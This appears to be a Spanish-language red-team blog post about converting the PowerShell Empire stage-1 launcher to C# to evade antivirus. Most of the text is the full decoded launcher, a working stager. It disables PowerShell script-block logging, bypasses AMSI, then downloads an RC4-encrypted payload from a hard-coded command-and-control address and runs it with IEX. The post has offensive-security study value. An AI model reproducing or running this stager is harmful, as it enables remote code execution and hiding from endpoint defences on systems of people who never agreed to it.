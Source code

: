 ```yaml
---
title: Evasión de AV convirtiendo el Stage 1 de PowerEmpire a CSharp
classes: wide
---
```


English [here](/AV-Evasion-Converting-PowerEmpire-Stage-1-to-CSharp-EN/)

¿Cómo puedo ejecutar PowerEmpire usando un .exe en lugar de un comando de PowerShell? Me hice esta pregunta y decidí ver qué hace el comando de PowerShell Empire y lo repliqué en C #.

Como todos sabemos, PowerShell puede usar clases .Net, que hacen de PowerShell un lenguaje de scripts sólido. Esta es una de las razones por las que Defensores y Atacantes comenzaron a usar PowerShell. Algunas de las herramientas más populares de uso ofensivo de PowerShells son [BloodHound](https://github.com/BloodHoundAD/BloodHound), [PowerEmpire](https://github.com/EmpireProject/Empire), [PowerSploit](https://github.com/PowerShellMafia/PowerSploit), [Nishang tools](https://github.com/samratashok/nishang), por mencionar algunas.

Debido a que PowerShell ha sido muy utilizado por los atacantes, Microsoft comenzó a introducir algunos controles de seguridad que permiten monitorear más a PowerShell.

Comencemos con el análisis de PowerEmpire Launcher. Antes que nada, ¿qué es PowerShell Empire? Se trata de un framework de post-exploitation que utiliza PowerShell y comunicaciones seguras desde el punto de vista criptológico. Si necesita más información sobre este proyecto, visite [www.powershellempire.com](www.powershellempire.com).

PowerEmpire tiene muchas formas de ejecución que puedes elegir para lanzar tu ataque, para Windows incluye dll, macro, hta, bat, vbs, shellcode, etc. Entonces, ¿por qué decidí crear un código C# para Empire si ya hay uno? Bueno, digamos que quería entender qué hace Empire, cómo lo hace y me preguntaba si podría crear mi propio código.

Así es cómo se genera un Launcher:

![pse_launcher](/assets/images/pse_launcher.png)

Este es el script decodificado:

```
If($PSVErSioNTaBLe.PSVErSIoN.MAjor -gE 3){$GPF=[rEf].AsSeMblY.GetTYpE('System.Management.Automation.Utils')."GeTFie`Ld"('cachedGroupPolicySettings','N'+'onPublic,Static');If($GPF){$GPC=$GPF.GeTValUE($NULL);IF($GPC['ScriptB'+'lockLogging']){$GPC['ScriptB'+'lockLogging']['EnableScriptB'+'lockLogging']=0;$GPC['ScriptB'+'lockLogging']['EnableScriptBlockInvocationLogging']=0}$Val=[ColLECTionS.GENeric.DIcTiOnarY[STriNG,SystEm.Object]]::NEw();$vAL.ADD('EnableScriptB'+'lockLogging',0);$VAL.AdD('EnableScriptBlockInvocationLogging',0);$GPC['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptB'+'lockLogging']=$vAL}ElSe{[ScRIPtBloCk]."GETFIE`lD"('signatures','N'+'onPublic,Static').SetVALUe($nuLl,(New-OBJect COllEcTIONs.GenErIC.HASHSet[sTRInG]))}[REF].AsSEMBLY.GEtTypE('System.Management.Automation.AmsiUtils')|?{$_}|%{$_.GeTFIeld('amsiInitFailed','NonPublic,Static').SETVALUe($null,$true)};};[SystEM.NeT.SErvicEPOINTManAGeR]::EXPeCt100CoNTinUe=0;$wC=New-ObJecT SYsTem.NET.WeBCLIENt;$u='Mozilla/4.0 (compatible; MSIE 6.0;Windows NT 5.1)';$WC.HEaDERS.ADd('User-Agent',$u);$wC.PRoxY=[SYsteM.NET.WEbRequest]::DeFAulTWEbPROxY;$wC.Proxy.CREdentIaLs = [SyStEM.NEt.CReDenTiaLCACHE]::DefAultNEtWorkCReDEntiALs;$Script:Proxy = $wc.Proxy;$K=[SYsTEm.TEXT.ENcODinG]::ASCII.GeTBYtEs('fdcece0a22c10f83dccc8f17c95a33d4');$R={$D,$K=$ARGs;$S=0..255;0..255|%{$J=($J+$S[$_]+$K[$_%$K.COuNT])%256;$S[$_],$S[$J]=$S[$J],$S[$_]};$D|%{$I=($I+1)%256;$H=($H+$S[$I])%256;$S[$I],$S[$H]=$S[$H],$S[$I];$_-bXOr$S[($S[$I]+$S[$H])%256]}};$ser='http://192.168.6.119:80';$t='/CWoNaJLBo/VTNeWw11212/';$wc.HeADeRs.AdD("Accept","image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, */*");$Wc.HeaDeRs.Add("Accept-Language","en-en");$WC.HEADErS.AdD("Cookie","session=pRWdj48/Lf2wTAhO2Y7BXpRHz6o=");$DAtA=$WC.DOWnlOADDAtA($SEr+$T);$iv=$datA[0..3];$Data=$DATa[4..$DATA.LENgTh];-jOiN[ChaR[]](& $R $Data ($IV+$K))|IEX
```

